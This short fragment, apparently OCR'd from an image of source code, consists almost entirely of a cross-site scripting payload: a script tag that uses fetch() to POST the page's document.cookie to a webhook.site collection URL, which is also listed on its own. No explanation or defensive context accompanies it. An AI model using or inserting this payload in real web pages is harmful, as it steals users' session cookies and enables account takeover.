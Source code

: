 https://webhook.site/81f27aab-f2b0-41be-b8e6-a76add635032
<script>
fetch('https://webhook.site/81f27aab-f2b0-41be-b8e6-a76add635032', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>